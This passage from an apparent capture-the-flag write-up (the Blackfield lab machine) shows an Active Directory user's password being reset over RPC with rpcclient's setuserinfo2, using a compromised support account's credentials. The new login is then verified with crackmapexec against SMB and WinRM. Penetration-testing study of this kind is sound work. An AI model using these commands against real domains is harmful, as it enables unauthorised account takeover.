 ### Password Reset over RPC

There's a somewhat famous post by Mubix about [resetting Windows
passwords over
RPC](https://room362.com/post/2017/reset-ad-user-password-with-linux/).
I'll use the command `setuserinfo2`:



    rpcclient $> setuserinfo2
    Usage: setuserinfo2 username level password [password_expired]
    result was NT_STATUS_INVALID_PARAMETER



The blog says to use 23 as the level.

If I reset with something that doesn't match the password policy, it
complains:



    rpcclient $> setuserinfo2 audit2020 23 '0xdf'
    result: NT_STATUS_PASSWORD_RESTRICTION
    result was NT_STATUS_PASSWORD_RESTRICTION



If it succeeds, silence in return:



    rpcclient $> setuserinfo2 audit2020 23 '0xdf!!!'



In case I want to just do this from the command line, it can be run as:



    root@kali# rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "0xdf!!!"'



### Check Creds

On changing the creds, I can now authenticate as audit2020:



    root@kali# crackmapexec smb 10.10.10.192 -u audit2020 -p '0xdf!!!'
    SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
    SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:0xdf!!! 



Still no WinRM:



    root@kali# crackmapexec winrm 10.10.10.192 -u audit2020 -p '0xdf!!!'
    WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
    WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\audit2020:0xdf!!! "Failed to authenticate the user audit2020 with ntlm"
